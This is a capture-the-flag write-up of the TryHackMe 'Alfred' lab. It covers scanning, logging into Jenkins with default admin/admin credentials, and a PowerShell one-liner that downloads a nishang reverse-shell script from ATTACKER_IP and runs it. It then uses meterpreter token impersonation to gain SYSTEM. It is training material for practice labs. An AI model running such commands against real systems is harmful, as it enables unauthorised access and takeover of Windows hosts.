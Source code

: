 To access the machine, click on the link given below:
- https://tryhackme.com/room/alfred

# SCANNING

I performed an **nmap** aggressive scan on the target to identify the open ports and the services running on them.

![](IMAGES/1.png)

# FOOTHOLD

The target had  http service running on port 80 and 8080, so I accessed them through my browser.

![](IMAGES/2.png)

I found a **jenkins** login page on port 8080.

![](IMAGES/3.png)

I also viewed the *robots.txt* file that was identified by the **nmap** scan.

![](IMAGES/4.png)

I googled default credentials for **Jenkins** and found the default username.

![](IMAGES/5.png)

I tried few combinations and logged in using the credentials:
- username: `admin`
- password: `admin`

![](IMAGES/6.png)

With access to jenkins, I could execute code to get a reverse shell. I downloaded the `Invoke-PowerShellTcp.ps1` script from **nishang**.
- https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

I then started an http server to host the powershell script.

![](IMAGES/7.png)

On **Jenkins**, I created a new project, new build, then added a command to download the reverse shell script and send a shell to my system.

![](IMAGES/8.png)

I used the following command:

```
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/Invoke-PowerShellTcp -Reverse -IPAddress ATTACKER_IP -Port ATTACKER_PORT)
```

![](IMAGES/9.png)

Finally, I started a **netcat** listener and built the project.

![](IMAGES/10.png)

![](IMAGES/11.png)

I got a reverse shell from the target and captured the user flag from *`C:\Users\bruce\Desktop`*.

![](IMAGES/12.png)

![](IMAGES/13.png)

# PRIVILEGE ESCALATION

I viewed my privileges and found that I had the **`SeImpersonatePrivilege`** enabled.

![](IMAGES/14.png)

For better functionality and usability, I created an **msfvenom** payload to get a **meterpreter** shell.

![](IMAGES/15.png)

![](IMAGES/16.png)

![](IMAGES/17.png)

![](IMAGES/18.png)

After getting **meterpreter** shell, I loaded the **incognito** module for token impersonation.

![](IMAGES/19.png)

I then listen available tokens and Found `NT AUTHORITY\SYSTEM`. I then impersonated the account and got SYSTEM access.

![](IMAGES/20.png)

I had a 32 bit session so I upgraded it to 64 bit by migrating to a 64 bit process. Finally, I captured the root flag from `C:\Windows\System32\config\root.txt`

![](IMAGES/21.png)

---
